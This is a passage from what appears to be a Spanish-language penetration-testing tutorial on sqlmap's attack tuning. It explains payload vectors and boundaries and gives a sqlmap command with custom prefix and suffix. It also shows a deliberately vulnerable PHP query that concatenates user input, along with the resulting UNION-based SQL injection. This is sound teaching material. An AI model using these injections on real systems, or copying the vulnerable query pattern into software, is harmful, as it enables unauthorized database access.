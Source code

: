 # Attack Tuning

En la mayoría de los casos, SQLMAP debería salir de la caja con los detalles del objetivo proporcionados. Sin embargo, hay opciones para ajustar los intentos de inyección SQLI para ayudar a SQLMAP en la fase de detección. Cada carga útil enviada al objetivo consiste en:

- vector (por ejemplo,`UNION ALL SELECT 1,2,VERSION()`): parte central de la carga útil, que lleva el código SQL útil que se ejecutará en el objetivo.
- límites (por ejemplo`'<vector>-- -`): Formaciones de prefijo y sufijo, utilizadas para la inyección adecuada del vector en la declaración SQL vulnerable.

---

# **Prefijo/sufijo**

Existe un requisito de valores especiales de prefijo y sufijo en casos raros, no cubiertos por la ejecución regular de SQLMAP.

Para tales ejecuciones, opciones`--prefix`y`--suffix`se puede usar de la siguiente manera:

Código:intento

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"

```

Esto dará como resultado un recinto de todos los valores de vectores entre el prefijo estático`%'))`y el sufijo`-- -`.

Por ejemplo, si el código vulnerable en el objetivo es:

Código:php

```php
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);

```

El vector`UNION ALL SELECT 1,2,VERSION()`, limitado con el prefijo`%'))`y el sufijo`-- -`, dará como resultado la siguiente instrucción SQL (válida) en el objetivo:

Código:sql

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1

```

---

# **Nivel/riesgo**
